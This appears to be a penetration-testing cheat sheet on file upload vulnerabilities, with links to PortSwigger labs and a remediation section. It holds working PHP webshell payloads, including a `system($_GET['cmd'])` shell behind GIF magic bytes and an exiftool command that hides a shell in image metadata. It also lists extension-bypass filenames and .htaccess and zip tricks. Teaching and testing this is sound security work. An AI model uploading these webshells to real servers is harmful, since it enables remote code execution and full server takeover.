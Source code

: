 # File uploads

File upload functions can be used as a powerful vector for a number of high-severity attacks. 

## Steps

* Browse the site and find each upload functionality.
* Start with basic test by uploading a webshell using Weevely.
* If that fails, try the bypasses. If a bypass is successful, exploit further, or try another.
* Make report.

## Blacklisting bypass

Find the upload request, send it to Repeater and test which extension for the file is blacklisted by changing the `filename=` parameter:

```text
POST /images/upload/ HTTP/1.1
Host: target.com
...
Content-Disposition: form-data; name="uploaded"; filename="wut.php"
Content-Type: application/x-php
```

|          Extension          | Try                                      |
|:---------------------------:|:-----------------------------------------|
|             PHP             | .phtm, phtml, .phps, .pht, .php2, .php3, |
|                             | .php4, .php5, .shtml, .phar, .pgif, .inc |
|             ASP             | asp, .aspx, .cer, .asa                   |
|             Jsp             | .jsp, .jspx, .jsw, .jsv, .jspf           |
|         Coldfusion          | .cfm, .cfml, .cfc, .dbm                  |
| Using random capitalization | .pHp, .pHP5, .PhAr                       |

Find more in PayloadAllThings. If successful, exploit further, or try another type of validation or bypass.

## Whitelisting bypass

Try these extensions on the `filename=` parameter:

    file.jpg.php
    file.php.jpg
    file.php.blah123jpg
    file.php%00.jpg
    file.php\x00.jpg 
    file.php%00
    file.php%20
    file.php%0d%0a.jpg
    file.php.....
    file.php/
    file.php.\
    file.php#.png
    file.
    .html

## Content-Type validation

Change the `Content-Type: application/x-php` or `Content-Type : application/octet-stream` to `Content-Type: image/png` or `Content-Type: image/gif` or `Content-Type: image/jpg`.

## Content-Length validation

For `Content-Type: application/x-php`, try a small file payload:

    <?=`$_GET[x]`?>   
    <?=‘ls’;   Note : <? work for “short_open_tag=On” in php.ini ( Default=On )

If that works, try a better shell ...

## Magic bytes

Change `Content-Type: application/x-php` to `Content-Type: image/gif` and add the 
	 text `GIF89a;` before the shell-code.

```text
POST /images/upload/ HTTP/1.1
Host: target.com
...
Content-Disposition: form-data; name="uploaded"; filename="wut.php"
Content-Type: image/gif

GIF89a; <?php system($_GET['cmd']); ?>
```

See [List of file signatures](https://en.wikipedia.org/wiki/List_of_file_signatures).

## Magic bytes and metadata shell

Bypass `Content-Type` checks by setting the value of the `Content-Type` header to `image/png`, `text/plain`, `application/octet-stream`, and create a shell using the metadata using tool exiftool:

    exiftool -Comment="<?php echo 'Command:'; if($_POST){system($_POST['cmd']);} __halt_compiler();" img.jpg

Try uploading the modified `img.jpg`.

## Uploading configuration files

Try, for example, uploading a `.htaccess` file [htshells](https://github.com/wireghoul/htshells) or a `.config` file. Code can be appended at the end of the file.

For example, uploading a `.htaccess` file with `AddType application/x-httpd-php .l33t`, instructs the Apache HTTP Server to execute PNG images as though they were PHP scripts. After that, upload a php webshell file with extension `.l33t`.

## Zip slip

If a site accepts `.zip` files, upload `.php` by compressing it into `.zip` and uploading it. Then visit `target.com/path?page=zip://path/file.zip%23rce.php`.

## Escalation

The impact of file upload vulnerabilities generally depends on two key factors:

* Which aspect of the file the website fails to validate properly, whether that be its size, type, contents, and so on.
* What restrictions are imposed on the file once it has been successfully uploaded.

What can you achieve by exploiting file-upload: Remote code execution, SSRF, XSS, LFI, XXE, phishing, parameter pollution, disclosure of internal paths, SQL injection, DoS attack, etcetera:

|        Extension(s)        |               Impact               |
|:--------------------------:|:----------------------------------:|
| ASP, ASPX, PHP5, PHP, PHP3 |           Webshell, RCE            |
|            SVG             |       Stored XSS, SSRF, XXE        |
|            GIF             |          Stored XSS, SSRF          |
|            CSV             |           CSV injection            |
|            XML             |                XXE                 |
|            AVI             |             LFI, SSRF              |
|          HTML, JS          | HTML injection, XSS, Open redirect |
|         PNG, JPEG          |      Pixel flood attack (DoS)      |
|            ZIP             |          RCE via LFI, DoS          |
|         PDF, PPTX          |          SSRF, BLIND XXE           |
|            SCF             |                RCE                 |

In the worst case scenario, the file's type isn't validated properly, and the server configuration allows certain types of file (such as `.php` and `.jsp`) to be executed as code. In this case, an attacker could potentially upload a server-side code file that functions as a webshell, effectively granting them full control over the server.

## Portswigger labs

* [Remote code execution via web shell upload](../upload/1.md)
* [Web shell upload via Content-Type restriction bypass](../upload/2.md)
* [Web shell upload via path traversal](../upload/3.md)
* [Web shell upload via extension blacklist bypass](../upload/4.md)
* [Web shell upload via obfuscated file extension](../upload/5.md)
* [Remote code execution via polyglot web shell upload](../upload/6.md)
* [Web shell upload via race condition](../upload/7.md)
* [Race conditions](../techniques/race.md)

## Remediation

* Check the file extension against a whitelist of permitted extensions rather than a blacklist of prohibited ones. It's much easier to guess which extensions you might want to allow than it is to guess which ones an attacker might try to upload.
* Make sure the filename doesn't contain any substrings that may be interpreted as a directory or a traversal sequence (`../`).
* Rename uploaded files to avoid collisions that may cause existing files to be overwritten.
* Do not upload files to the server's permanent filesystem until they have been fully validated.
* If uploaded files are downloadable by users, supply an accurate non-generic `Content-Type` header, the `X-Content-Type-Options: nosniff` header, and also a `Content-Disposition` header that specifies that browsers should handle the file as an attachment.
* Enforce a size limit on uploaded files (for defense-in-depth, this can be implemented both within application code and in the web server’s configuration).
* Reject attempts to upload archive formats such as ZIP.
* As much as possible, use an established framework for preprocessing file uploads rather than attempting to write your own validation mechanisms.

## Resources

* [Portswigger: File upload vulnerabilities](https://portswigger.net/web-security/file-upload)
* [OWASP:Test Upload of Malicious Files](https://owasp.org/www-project-web-security-testing-guide/latest/4-Web_Application_Security_Testing/10-Business_Logic_Testing/09-Test_Upload_of_Malicious_Files)
* [OWASP: File Upload Cheat Sheet](https://cheatsheetseries.owasp.org/cheatsheets/File_Upload_Cheat_Sheet.html)
* [Weevely](https://www.blackhatethicalhacking.com/tools/weevely/)